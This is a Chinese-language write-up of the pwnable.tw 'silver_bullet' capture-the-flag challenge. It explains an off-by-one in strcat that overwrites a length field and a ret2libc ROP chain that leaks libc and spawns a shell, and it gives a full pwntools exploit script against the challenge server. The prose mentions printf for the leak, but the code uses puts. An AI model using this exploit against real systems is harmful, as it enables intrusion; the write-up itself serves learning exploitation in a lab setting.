



silver_bullet – 白板off-by-one漏洞利用
这道题也是pwnable.tw上的一道200分的选单程序题，题目很有意思是一个打狼人的游戏，创造一把枪然后根据用户输入的长度给枪充能，然后去打死狼人。//md语文水平太烂了，讲句话都讲不好。
选单程序咩，先把逻辑分析清楚，看下各个函数。
int menu()
{
puts("+++++++++++++++++++++++++++");
puts(" Silver Bullet ");
puts("+++++++++++++++++++++++++++");
puts(" 1. Create a Silver Bullet ");
puts(" 2. Power up Silver Bullet ");
puts(" 3. Beat the Werewolf ");
puts(" 4. Return ");
puts("+++++++++++++++++++++++++++");
return printf("Your choice :");
} 首先是菜单，显示给用户选项。
然后是creatbullet函数，初始化银枪并充能。
之后是powerup函数，主要功能是通过将新输入的字符串与初始化时的字符串strcat连接起来，并计算新的字符串的长度判断是否超过48，如果超过，就输出无法充能,之后更新银枪能量。
最后是beat函数，用银枪去打狼人，如果狼人hp为0就退出main函数。
利用思路：
createbullet先输入47个字符进缓冲区,之后进行一次powerup，只输入1个字节，因为输入的是字符串，而且使用的是'strcat'函数,所以输入刚好凑齐48字节，最后的'\0'会将缓冲区的下一个字节覆盖，通过gdb调试可以发现缓冲区的下面一个字节存放的是字符串长度,\0刚好可以将len覆盖，这样我们就能通过powerup函数扩充栈然后构造输入溢出(第二次的powerup能输入47个字节，足够将将ebp后四位覆盖了)并将main函数返回地址覆盖,)由于这里没有像hacknote那样的任意命令执行，考虑ret2libc，通过覆盖返回地址构造rop链最后执行system('/bin/sh')来getshell，程序中有printf的plt地址，第一次可以将返回地址构造成printf函数调用的地址，由于这里无法使用栈存放参数，所以利用pop ebx指令将参数放进ebx供printf调用，然后将返回地址设置为main函数起始地址，之后就是再来一次上面的操作，ret2libc执行system调用getshell。
嗯呐就是这样啦，网上看了下教程好像说大多数的off-by-one都是用来扩充栈容量然后给攻击者溢出的，反正这次mark啦。还有就是找rop链，有个工具叫ropgadget，还是很好用的(ROPgadget --binary ./silver_bullet --only 'pop|ret'用来找pop ebx，ret;ROPgadget --binary ./libc_32.so.6 --string '/bin/sh'用来找/bin/sh字符串)。
嗯呐大体就是这样子的。这算是个白板off-by-one了吧。
exp如下:
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']
local = 1
if local:
#exe = './silver_bullet'
#cn = gdb.debug(exe,'''
# b *0x08048984
# continue
# ''')
cn = process('./silver_bullet')
bin = ELF('./silver_bullet')
libc = ELF('./libc_32.so.6')
else:
cn = remote('chall.pwnable.tw', 10103)
bin = ELF('./silver_bullet')
libc = ELF('./libc_32.so.6')
def z(a=''):
gdb.attach(cn,a)
if a == '':
raw_input()
def create(con):
cn.sendline('1')
cn.recvuntil('of bullet :')
cn.send(con)
def powerup(con):
cn.sendline('2')
cn.recvuntil('of bullet :')
cn.send(con)
def beat():
cn.sendline('3')
p1ret=0x08048475
create('a'*(0x30-1))
powerup('b')#power 1
#z('b*0x080488FB\nc')
pay = '\xff'*3 + 'bbbb'
pay+=p32(bin.plt['puts'])+p32(p1ret)+p32(bin.got['read'])
pay+=p32(bin.sym['main'])
#print pay
powerup(pay)
beat()
cn.recvuntil('win !!\n')
leak=u32(cn.recv(4))
print hex(leak)
libc.address = leak-libc.sym['read'] #image base address
success('libc_base: '+hex(libc.address))
system = libc.sym['system']
binsh = libc.search('/bin/sh\x00').next()
#print '@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@'
#print hex(binsh)
#print hex(libc2.search('/bin/sh').next()+libc.address)
#print hex(libc2.search('/bin/sh').next())
#print hex(libc.address+int(0x1794d1))
#print '@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@'
#============one more time
create('a'*(0x30-1))
powerup('b')
pay = '\xff'*3 + 'bbbb'
pay+=p32(system)+p32(p1ret)+p32(binsh)
powerup(pay)
beat()
cn.interactive()